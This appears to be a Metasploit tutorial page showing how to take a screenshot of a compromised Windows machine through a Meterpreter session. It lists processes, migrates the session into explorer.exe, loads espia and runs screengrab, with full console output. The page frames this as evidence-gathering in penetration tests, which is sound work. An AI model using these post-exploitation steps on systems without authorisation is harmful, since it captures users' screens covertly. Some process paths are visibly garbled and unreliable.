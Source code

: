 ```yaml
---
draft: false
title: MSF Screenshot
linkTitle: Screenshot
translationKey: msf-screenshot
date: 2017-06-05T13:38:00+03:00
weight: 250
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Taking screenshots is one of the capabilities provided by the Meterpreter shell session. This method is generally used as evidence in pentest operations.
url: /msf-screenshot/
featured_image: /images/metasploit.jpg
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit
  - framework
---
```

## Screen Capture

One of the possibilities provided by the Meterpreter shell session is to be able to record the desktop image of the target computer. Taking a desktop image with this method is usually used as evidence in pentest operations.

When you log in to Meterpreter, you should move the session to the `explorer.exe` process. In the example below, the programs running on the system are first checked.

Let's assume that you have logged in to Meterpreter on the target computer. First, let's look at the running processes. You can use the `ps` command for this.

```bash
> Started bind handler
> Trying target Windows XP SP2 - English...
> Sending stage (719360 bytes)
> Meterpreter session 1 opened (192.168.1.101:34117 -> 192.168.1.104:4444)

meterpreter > ps

Process list
============

 PID Name Path
 --- ---- ----
 180 notepad.exe C:\WINDOWS\system32 otepad.exe
 248 snmp.exe C:\WINDOWS\System32\snmp.exe
 260 Explorer.EXE C:\WINDOWS\Explorer.EXE
 284 surgemail.exe c:\surgemail\surgemail.exe
 332 VMwareService.exe C:\Program Files\VMware\VMware Tools\VMwareService.exe
 612 VMwareTray.exe C:\Program Files\VMware\VMware Tools\VMwareTray.exe
 620 VMwareUser.exe C:\Program Files\VMware\VMware Tools\VMwareUser.exe
 648 ctfmon.exe C:\WINDOWS\system32\ctfmon.exe
 664 GrooveMonitor.exe C:\Program Files\Microsoft Office\Office12\GrooveMonitor.exe
 728 WZCSLDR2.exe C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
 736 jusched.exe C:\Program Files\Java\jre6\b**in**\jusched.exe
 756 msmsgs.exe C:\Program Files\Messenger\msmsgs.exe
 816 smss.exe \SystemRoot\System32\smss.exe
 832 alg.exe C:\WINDOWS\System32\alg.exe
 904 csrss.exe \??\C:\WINDOWS\system32\csrss.exe
 928 winlogon.exe \??\C:\WINDOWS\system32\winlogon.exe
 972 services.exe C:\WINDOWS\system32\services.exe
 984 lsass.exe C:\WINDOWS\system32\lsass.exe
 1152 vmacthlp.exe C:\Program Files\VMware\VMware Tools\vmacthlp.exe
 1164 svchost.exe C:\WINDOWS\system32\svchost.exe
 1276 nwauth.exe c:\surgemail wauth.exe
 1296 svchost.exe C:\WINDOWS\system32\svchost.exe
 1404 svchost.exe C:\WINDOWS\System32\svchost.exe
 1500 svchost.exe C:\WINDOWS\system32\svchost.exe
 1652 svchost.exe C:\WINDOWS\system32\svchost.exe
 1796 spoolsv.exe C:\WINDOWS\system32\spoolsv.exe
 1912 3proxy.exe C:\3proxy\b**in**\3proxy.exe
 2024 jqs.exe C:\Program Files\Java\jre6\b**in**\jqs.exe
 2188 swatch.exe c:\surgemail\swatch.exe
 2444 iexplore.exe C:\Program Files\Internet Explorer\iexplore.exe
3004 cmd.exe C:\WINDOWS\system32\cmd.exe
```

As seen in the sample output, `explorer.exe` is running with PID number 260. Let's move the Meterpreter session to `explorer.exe` with the `migrate` command.

```bash
meterpreter > migrate 260
> Migrating to 260...
> Migration completed successfully.
```

Then let's activate the `espia` extension.

```bash
meterpreter > use espia
Loading extension espia...success.
```

Let's save the desktop image of the target computer with the `screengrab` command.

```bash
meterpreter > screengrab
Screenshot saved to: /root/nYdRUppb.jpeg
meterpreter >
```

As you can see, the Desktop image has been saved to our local computer. When doing this, it is important to switch to a program that can manipulate folders and files, such as `explorer.exe` or similar. Otherwise, the `screengrab` command may not work.
